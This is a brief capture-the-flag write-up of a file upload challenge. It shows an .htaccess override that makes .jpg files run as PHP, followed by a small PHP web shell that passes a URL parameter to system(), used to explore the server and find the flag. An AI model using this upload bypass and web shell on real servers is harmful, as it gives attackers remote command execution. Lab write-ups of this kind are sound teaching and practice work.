

# Reconnaissance

With this challenge we immediately guess that there's a file upload vulnerability

After uploading an image, we see it in uploads/

 # Exploitation

First we'll upload an .htaccess that will allow us to upload jpg files but interpreted as php. The trick here is to inject some php code in the jpg file, we can use burpsuite for it.
The .htaccess file contains `AddType application/x-httpd-php .jpg`.

We can then upload an image with the following code giving us a web shell:
`
<?php
if(isset($_GET["cmd"])) 
        system($_GET["cmd"]);
?>`

Let's gooo our getshell works we can use the command we want, starting with a classic ls and some others commands until we reach the flag by exploring.

Flagged !
